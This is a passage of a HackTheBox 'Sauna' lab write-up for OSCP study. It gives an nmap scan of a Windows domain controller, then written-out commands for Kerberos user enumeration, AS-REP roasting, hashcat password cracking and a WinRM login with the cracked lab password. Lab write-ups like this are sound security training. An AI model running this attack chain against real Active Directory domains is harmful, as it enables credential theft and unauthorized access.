

repository: nobodynate/nobodynate.github.io · page: OSCP-Prep/HackTheBox/Sauna/index.html · generator: mkdocs

# Sauna
IP
```
10.10.10.175
```

```
53/tcp   open  domain?       syn-ack ttl 127
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-07-12 10:10:00Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site:
Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site:
Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127

```



LDAP search returns a user's name.

![[Pasted image 20220711221732.png]]

We found his username is `hsmith`

![[Pasted image 20220711223621.png]]

we did more user enumeration with

```
kerbrute userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.local /usr/share/seclists/Usernames/userlist.txt
```

we found a new user: `fsmith` and used the following command to get an AS-REP hash

```
GetNPUsers.py egotistical-bank.local/ -usersfile users -format hashcat -outputfile as-rep.hash
```

we then cracked using hashcat

```
hashcat as-rep.hash /usr/share/wordlists/rockyou.txt
```

```
fsmith
```

```
Thestrokes23
```

we logged in using evil-winrm

```
evil-winrm -u fsmith -p Thestrokes23 -i 10.10.10.175
```

and found the user flag on the desktop
